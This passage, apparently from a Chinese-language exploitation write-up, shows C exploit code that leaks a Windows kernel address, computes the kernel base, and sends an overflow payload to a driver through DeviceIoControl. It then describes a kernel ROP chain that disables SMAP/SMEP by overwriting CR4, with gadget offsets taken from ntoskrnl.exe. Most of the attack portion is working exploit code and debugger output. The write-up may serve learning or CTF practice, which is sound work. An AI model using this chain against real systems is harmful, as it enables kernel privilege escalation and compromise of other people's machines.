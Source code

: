 ```c
    uintptr_t* STACK_VAL = (uintptr_t*)stack_value;
    uintptr_t leak_kernel = STACK_VAL[33]; // Stack start + 0x108
    uintptr_t kernel_base = leak_kernel - 0xb7b3c9; 
    printf("[!] Leak Kernel: 0x%llx\n", leak_kernel);
    printf("[!] Kernel Base: 0x%llx\n", kernel_base);

    uintptr_t payload[75];


    for(int i=0; i < 37; i++){
        payload[i] = ADDR(STACK_VAL[i]);
    }

    payload[37] = ADDR(0xaabbccdd);

    BOOL result3 = DeviceIoControl(
        hDevice,
        DeVioctlCode,
        payload,
        sizeof(payload),
        NULL,
        sizeof(payload),
        &bytesReturned,
        NULL
    );

    return 0;
}
```

接下來來看 KROP 怎麼堆

### bypass SMAP/SMEP
第一步要做關掉 SMAP/SMEP
一樣觀察 cr4
```
kd> r cr4
cr4=0000000000350ef8 = 0b 11 0101 0000 1110 1111 1000 = 0x50ef0
```
把他蓋成 `0b 00 0101 0000 1110 1111 0000`

![image](https://hackmd.io/_uploads/Hkk58fy5ye.png)

先找兩個 gadget，可以控 cr4 的跟可以控 mov cr4, reg，pop reg 之類的 gadget
到這找 gadget `C:\Windows\System32\ntoskrnl.exe`

![image](https://hackmd.io/_uploads/H1wd_NJqJx.png)

將 cr4 設為 0x50ef0

```c
    payload[37] = ADDR(kernel_base + 0x7a7baf); //0x1407a7baf: pop rcx ; ret ;
    payload[38] = ADDR(0x50ef0);
    payload[39] = ADDR(kernel_base + 0x47f027); // 0x14047f027: mov cr4, rcx ; ret ;
```
